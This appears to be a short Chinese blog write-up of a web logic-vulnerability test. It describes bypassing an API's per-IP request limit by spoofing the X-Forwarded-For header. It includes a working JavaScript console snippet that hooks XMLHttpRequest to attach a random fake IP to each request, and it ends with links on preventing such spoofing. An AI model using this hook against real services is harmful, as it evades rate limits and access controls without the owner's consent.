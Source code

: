 ```yaml
---
title: 一次X-Forwarded-For绕过ip限制
date: 2024-03-15 19:25:05
tags:
---
```

**作者：dabaisuv，原文链接：https://dabaisuv.github.io/2024/03/15/一次X-Forwarded-For绕过ip限制**
* 背景
  * 在进行一次web逻辑漏洞测试的时候，有个接口有请求次数限制。

* 测试过程
  * 逆向了js代码后，发现他没有其他可验证的手段，猜测是对ip的限制。
  * 利用yakit拦截一次请求，添加了X-Forwarded-For: 127.0.0.1。
  * 发现请求次数限制被绕过了。

* 批量利用
  * 经逆向发现他的请求用的是XMLHttpRequest。
  * 控制台执行如下代码，hook xhr的open函数，使每次请求随机X-Forwarded-For ip。
  
 ```javascript
function hookAjax() {
  var originalXHR = window.XMLHttpRequest;
  window.XMLHttpRequest = function() {
    var xhr = new originalXHR();
    var originalOpen = xhr.open;

    xhr.open = function(method, url, async, user, password) {
      originalOpen.apply(this, arguments);

      if (this.readyState === 1) {
        this.setRequestHeader('X-Forwarded-For', generateRandomIP());
      }
    };

    return xhr;
  };
  
  function generateRandomIP() {
    var ip = [];
    for (var i = 0; i < 4; i++) {
      ip.push(Math.floor(Math.random() * 256));
    }
    return ip.join('.');
  }
}
hookAjax();
```
  
* 解决方案
  * https://totaluptime.com/kb/prevent-x-forwarded-for-spoofing-or-manipulation/
  * https://xxgblog.com/2018/10/12/x-forwarded-for-header-trick/#%E5%A6%82%E4%BD%95%E9%98%B2%E8%8C%83